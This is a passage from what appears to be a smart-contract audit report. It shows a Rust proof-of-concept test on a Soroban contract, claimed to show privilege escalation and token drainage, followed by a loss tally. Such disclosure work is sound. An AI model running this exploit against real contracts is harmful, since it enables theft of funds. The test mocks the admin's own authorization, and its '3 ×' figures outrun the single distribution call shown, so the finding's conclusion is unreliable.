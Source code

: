 ```rust
            fn_name: "approve_verification",
            args: (attacker.clone(),).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.approve_verification(&attacker);

    // STEP 2: Attacker verifies their other addresses
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin,
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "approve_verification",
            args: (attacker_address1.clone(),).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.approve_verification(&attacker_address1);

    // STEP 3: Attacker distributes funds to all their addresses
    let drain_amount = 999999;
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin,
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "distribute_rewards",
            args: (attacker.clone(), drain_amount).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.distribute_rewards(&attacker, &drain_amount);

    // Verify privilege escalation successful
    assert!(contract.is_user_verified(&attacker));
    assert!(contract.is_user_verified(&attacker_address1));
    let attacker_rewards = contract.get_pending_rewards(&attacker);
    assert!(attacker_rewards > 0);
}
```

**Result:** Test PASSES, confirming privilege escalation vulnerability.

#### Attack Impact
- **Direct Drainage**: 3 × 999,999 = 2,999,997 tokens
- **Admin Commissions**: 3 × 49,999 = 149,997 tokens (5% each)
- **Total Loss**: 3,149,994 tokens
- **Privilege Escalation**: Attacker gains admin-like powers

## 🎯 Threat Model & Operational Risks

### Social Engineering Attack Vector
